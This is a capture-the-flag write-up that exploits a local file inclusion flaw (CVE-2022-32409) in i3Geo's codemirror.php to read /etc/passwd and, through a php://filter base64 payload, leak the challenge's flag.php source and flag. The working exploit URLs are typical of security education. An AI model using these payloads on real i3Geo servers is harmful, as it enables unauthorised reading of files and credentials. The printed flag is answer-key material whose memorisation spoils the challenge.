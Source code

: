 # Writeup

- Navigating to http://exploracao.hkn will redirect to http://exploracao.hkn/i3geo/init/index.php?home=, the main i3Geo view
- Here we have a menu with a number of interfaces etc. to choose from - the most interesting for us being "Flag" with a psyduck map
- Clicking this takes us to http://exploracao.hkn/i3geo/flag.php, but we just get "Flag is only visible to admin user"
- Since we have to do with specific real software, we search online for vulnerabilities, and find a few CVEs for both XSS and one for LFI
- The LFI CVE ([CVE-2022-32409](https://nvd.nist.gov/vuln/detail/CVE-2022-32409)) seems most useful since we have a known local file we want to read. This is a LFI in the `codemirror.php` file under `/exemplos`
- The description links to a PoC: https://github.com/wagnerdracha/ProofOfConcept/blob/main/i3geo/i3geo_proof_of_concept.txt
- This has PoCs for both the LFI and XSS vulns (discovered by same person). LFI PoC:
  - http://.../i3geo/exemplos/codemirror.php?&pagina=../../../../../../../../../../../../../../../../../etc/passwd
- We try just the straight forward version of this on the challenge and get an immediate hit:
  - http://exploracao.hkn/i3geo/exemplos/codemirror.php?pagina=/etc/passwd
- So we have LFI - we try including the flag:
  - http://exploracao.hkn/i3geo/exemplos/codemirror.php?pagina=../flag.php
- But again, we only see the admin message since the flag file is a PHP file and is interpreted when included
- This is where some knowledge of PHP filters come in. We can use `php://filter/convert.base64-encode/resource=<file>` to base64 encode `<file>` *before* including it (other conversion filters likely work as well). We use this on the flag:
  - http://exploracao.hkn/i3geo/exemplos/codemirror.php?pagina=php://filter/convert.base64-encode/resource=../flag.php
- From this we get a long base64 string, which we can decode and now see the original PHP source, including this:

```php
<?php
    if ($_SESSION["username"] === "administrador") {
        echo "<h2>DDC{1nclu54o_d3_4rqu1v0_l0c4l}</h2>";
    } else {
        echo "<h2>Flag is only visible to admin user</h2>";
    }
?>
```

## Flag

`DDC{1nclu54o_d3_4rqu1v0_l0c4l}`
